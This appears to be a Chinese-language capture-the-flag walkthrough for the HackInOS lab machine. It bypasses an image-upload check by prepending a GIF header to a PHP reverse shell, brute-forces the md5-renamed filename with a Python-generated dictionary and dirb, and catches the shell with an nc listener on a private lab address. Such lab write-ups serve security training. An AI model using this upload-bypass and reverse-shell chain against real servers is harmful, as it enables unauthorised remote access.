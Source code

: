 打开upload.php 并找到一个可以上传图片的页面。这里我们尝试上传一张图片并得到一张笑脸，看起来这意味着上传文件时出错

查看源代码发现：



打开 GitHub 链接，发现里面有 upload.php 文件的源代：

https://github.com/fatihhcelik/Vulnerable-Machine---Hint/blob/master/upload.php
二十七行发现：
	if($check["mime"] == "image/png" || $check["mime"] == "image/gif"){

阅读源码可知只允许上传PNG或GIF格式的图片！


第18~20行：
	$rand_number = rand(1,100);
	$target_file = $target_dir . md5(basename($_FILES["file"]["name"].$rand_number));

文件被重命名为“md5(<filename><random number)between 1 – 100>的随机数，创建了一个python 脚本，该脚本创建了一个包含所有100个md5文件名的文本文件！
从源码可以看到文件名为md5(basename($_FILES["file"]["name"].$rand_number))加上后缀，也就是.php，rand_number的可能性也就一百零一个，写个脚本爆破一下好了！


第25行：
  $check = getimagesize($_FILES["file"]["tmp_name"]);

绕过getimagesize的限制也比较简单，只要头部伪装成正常PNG或者GIF即可，可以找一个png图片插入php代码，这里我直接在内容的头部加上GIF文件的标识GIF98就好了！



https://github.com/Sayantan5/HackInOS/blob/master/encode.py
----------------------
#!/usr/bin/python
import hashlib
for i in range(100):
      file = "shell.php" + str(i)
      hash = hashlib.md5(file.encode())
      dir = hash.hexdigest() + ".php"
      f = open("dict.txt", "a+")
      f.write(dir+"\r\n")
      f.close()
----------------------


文件上传：
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
修改IP端口、最顶部加入：GIF98


开始爆破：
dirb http://192.168.253.218:8000/uploads/ dict.txt

http://192.168.253.218:8000/uploads/3e04c73ef528d3bcf3bb08b160d340b7.php (CODE:200|SIZE:292)


nc -vlp 7777
http://192.168.253.218:8000/uploads/3e04c73ef528d3bcf3bb08b160d340b7.php
